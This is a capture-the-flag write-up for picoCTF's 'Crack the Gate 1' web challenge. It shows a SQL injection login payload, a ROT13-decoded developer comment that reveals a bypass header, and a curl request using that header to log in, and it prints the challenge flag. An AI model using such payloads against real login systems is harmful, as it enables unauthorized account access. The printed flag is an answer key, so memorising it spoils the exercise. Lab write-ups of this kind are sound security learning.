


# Crack the Gate 1 — Pico Gym

> **Room / Challenge:** Crack the Gate 1 (Web)

---

## Metadata

- **Author:** `jameskaois`
- **CTF:** Pico Gym
- **Challenge:** Crack the Gate 1 (web)
- **Link**: `https://play.picoctf.org/practice/challenge/520`
- **Difficulty:** `Easy`
- **Date:** `07-11-2025`

---

## Goal

We have to gain access through `ctf-player@picoctf.org` account to get the flag.

## My Solution

The first page appears is the login page:



There is no clue that we can do, I tried a simple SQL Injection:

```
Email: ctf-player@picoctf.org
Password: ' OR 1 -- -
```



Got invalid credentials, so I tried `View page source` and find a significant clue:

```html
<!-- ABGR: Wnpx - grzcbenel olcnff: hfr urnqre "K-Qri-Npprff: lrf" -->
<!-- Remove before pushing to production! -->
```

The developer forgot to remove the notes. `ABGR: Wnpx - grzcbenel olcnff: hfr urnqre "K-Qri-Npprff: lrf"` this line is encoded or encrypted in some ways. I found out it is ROT13 encoded, the original is:

```
NOTE: Jack - temporary bypass: use header "X-Dev-Access: yes"
```

I created a bash command to test:

```bash
curl -v -X POST http://HOST_SERVER/login -H "X-Dev-Access: yes" -d "email=ctf-player@picoctf.org&password=anything"
```

The result:

```json
{
  "success": true,
  "email": "ctf-player@picoctf.org",
  "firstName": "pico",
  "lastName": "player",
  "flag": "picoCTF{brut4_f0rc4_cbb8faa7}"
}
```

Flag is: `picoCTF{brut4_f0rc4_cbb8faa7}`
